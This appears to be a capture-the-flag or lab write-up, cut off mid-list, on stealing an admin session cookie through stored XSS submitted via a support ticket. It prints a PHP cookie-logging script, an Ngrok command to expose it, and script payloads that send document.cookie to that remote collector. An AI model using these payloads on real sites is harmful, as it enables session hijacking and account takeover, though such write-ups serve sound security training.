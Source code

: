 We are giving a website with 2 users

**_A normal user page :_**


![](https://i.imgur.com/SeBIL1f.png)



**_An admin page_**



![](https://i.imgur.com/xcjIfUR.png)


**The task here is to steal the Admin cookie via stored xss, so we can automatically be logged in as admin**

## **Understanding the flow**


- Starting with a basic XSS payload i wanted to understand the flow of this application, so i sent our payload to the **Admin** via the support ticket page of the normal user

![](https://i.imgur.com/THMNNRs.png)

- Navigating to the admin page and refreshing it, we truly have stored XSS

![](https://i.imgur.com/0mXRLZ1.png)



## **Preparing our Exploit**


- First of all since we will be using **Ngrok** as our server, we need to create a Script that will take the logs of our admin and save it to a `.txt` file every time he tries to login or refresh his browser made by [@Ravid11345277](https://twitter.com/Ravid11345277). As seen below we can save this PHP code in our file system with the extension `.php`

```PHP
<?php

$ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
$ua=$_SERVER['HTTP_USER_AGENT'];


$fp=fopen('cookies.txt' , 'a+');

fwrite($fp, $ip.' '.$ua."\n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fclose($fp);

?>
```



- Now start up your **Ngrok** server with the following command, where the `PHP` file was saved

```bash
$ ngrok http 80
```



![](https://i.imgur.com/PNGlTEU.png)


- Navigating to the normal user page we can craft the XSS payload that will steal the **Admin** user cookies by sending them to a remote server, which in this case is the `xss.php` file we created :

```js
<script> var i=new Image(); i.src="<NGROK-LINK-GOES-HERE>/xss.php?cookie="+document.cookie;</script>
```

- But just before we do anything let confirm if our **Ngrok** server is working by copying the forwarding link and calling the `PHP` file we created then, so your link should look like this

```
https://52c8-102-89-32-48.ngrok-free.app/{filename}.php
```

![](https://i.imgur.com/klOJ6Lz.png)


> **Note :** I added the `?test` parameter so i will see if it works when i navigate to `cookies.txt`

- Booyah, Navigating to `/cookies.txt` we can see our server is up and running, **P.N :** I blocked my public IP, you should know why 😆 

![](https://i.imgur.com/snNWgvj.png)



## **Launching Our Exploit**

Since we know things are good to go, we can take our malicious XSS payload and attempt to get the **admin** cookie in `/cookies.txt`

- Copy your malicious XSS payload and make sure to replace the `NGROK-LINK-GOES-HERE` with the right **Ngrok** server link, then we can **Submit** it to the **Admin**

```js
<script> var i=new Image(); i.src="<NGROK-LINK-GOES-HERE>/xss.php?admin_cookie="+document.cookie;</script>
```

![](https://i.imgur.com/BFAUqoa.png)


- Navigating to the **Admin** page, we can refresh the page and we have `test 2` created already

![](https://i.imgur.com/YrVmwf6.png)


-